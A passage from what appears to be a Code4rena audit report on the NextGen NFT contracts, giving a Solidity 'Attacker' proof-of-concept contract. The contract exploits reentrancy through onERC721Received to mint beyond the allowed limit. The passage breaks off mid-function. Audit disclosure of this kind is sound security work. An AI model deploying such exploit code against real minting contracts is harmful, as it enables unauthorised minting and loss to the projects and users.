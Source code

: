 ## Proof of Concept

_To execute the POC, you will need to utilize the following `Attacker` contract. Place this contract in [smart-contracts/Attacker.sol](https://github.com/code-423n4/2023-10-nextgen/blob/8b518196629faa37eae39736837b24926fd3c07c/hardhat/smart-contracts)._

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./IERC721Receiver.sol";
import "./INextGenCore.sol";

interface IMinter {
  function mint(
      uint256 _collectionID,
      uint256 _numberOfTokens,
      uint256 _maxAllowance,
      string memory _tokenData,
      address _mintTo,
      bytes32[] calldata merkleProof,
      address _delegator,
      uint256 _saltfun_o
  ) external payable;

  function getPrice(uint256 _collectionId) external view returns (uint256);
}

contract Attacker is IERC721Receiver {
  IMinter minter;
  INextGenCore core;
  uint256 collectionId;
  uint256 mintedOver = 0;

  constructor(address _minter, address _core, uint256 _collectionId) {
      minter = IMinter(_minter);
      core = INextGenCore(_core);
      collectionId = _collectionId;
  }

  function mint() public {
      bytes32[] memory proof = new bytes32[](0);

      minter.mint{value: minter.getPrice(collectionId)}(
          collectionId,
          1,
          0,
          '{"tdh": "100"}',
          address(this),
          proof,
          address(this),
          2
      );
  }

  function onERC721Received(
      address operator,
      address from,
      uint256 tokenId,
      bytes calldata data
  ) external returns (bytes4) {
      if (mintedOver < 10) {
          mintedOver++;
```
